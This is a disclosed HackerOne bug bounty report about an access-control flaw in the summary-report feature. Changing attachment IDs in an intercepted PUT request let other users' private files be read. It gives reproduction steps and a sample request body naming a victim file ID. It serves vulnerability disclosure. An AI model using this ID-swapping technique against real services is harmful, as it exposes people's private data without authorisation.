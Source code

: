 # Attachment disclosure via summary report 

## Report Details
- **Report ID**: 2442008
- **URL**: https://hackerone.com/reports/2442008
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2024-03-30T17:53:08.294Z
- **Disclosed**: 2024-04-29T04:32:57.476Z

## Reporter
- **Username**: xklepxn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

Hackerone provides a form for reporting vulnerabilities to various programs. where the form supports uploading files & previews (images or videos) but is not allowed to use file ids belonging to other accounts. but with the sumary report feature I as a hacker can reveal files belonging to other users just changing the id. this is very severe.


**Description:**

I have tried to call files belonging to other accounts through the submit report, edit report form but it doesn't work it always gets the response ```"was_successful":false,```. but fortunately I can find another endpoint that is able to read files belonging to other accounts, namely in the sumary report feature.

### Steps To Reproduce
If you look at the video I attached, there I made the scenario "failed to read other account files" & "successfully read other account files" as for the steps as follows:
note : left victim right attacker

1. the attacker creates a report either draft or existing, then creates a Hacker summary 
2. then edit the summary and give the file to. 
3. intercept with intercept change the attacker file id to the victim file id
4. boom file read in markdown preview.

{F3155289}

### POC 
I don't know, uploading large files takes too long in attacth, I just put the poc via yt. : https://████ (private video)
or in gdrive, if yt can't be seen yet  : https://███████

### Optional: Supporting Material/References (Screenshots)

####raw text in video :
```
attachment leaked via add sumary report :

victim file id : 
3155239

I WILL CHANGE F3155244 TO 3155239
ATTACKER file : 

3155241
3155242
"was_successful":true, (IF FILE FROM ATTACKER) I WILL CHANGE TO VICTIM FILE
"was_successful":false, WILL FALSE 

trying leak via content : false positive
leak via sumary : successful
```
#### endpoint affected  (attachment_ids)

```
PUT /reports/████/summaries/███████ HTTP/2
Host: hackerone.com
.....all header ...
Content-Length: 908
Origin: https://hackerone.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"id":████████,"category":"researcher","content":"TESTEDIT\n\n{F3155244} ","updated_at":"2024-03-30T17:16:29.625Z","user":{"id":█████,"username":"█████","name":"██████████████","bio":"please see pdfx","cleared":false,"verified":false,"website":null,"location":"","created_at":"2024-03-29T11:27:50.077Z","url":"https://hackerone.com/██████████","hackerone_triager":false,"hackerone_employee":false,"user_type":"hacker","profile_picture_urls":{"small":"/assets/avatars/default-█████.png","medium":"/assets/avatars/default-███████.png","xtralarge":"/assets/avatars/default-███████.png"}},"can_view?":true,"can_create?":true,"attachments":[],"action_type":"publish","attachment_ids":[
3155239]}
```

## Impact

This is very bad especially the id form is only numeric in order. I can just add all the file ids of the hackerone account. I can see other people's pocs if it's a video.

## Attachments
No attachments
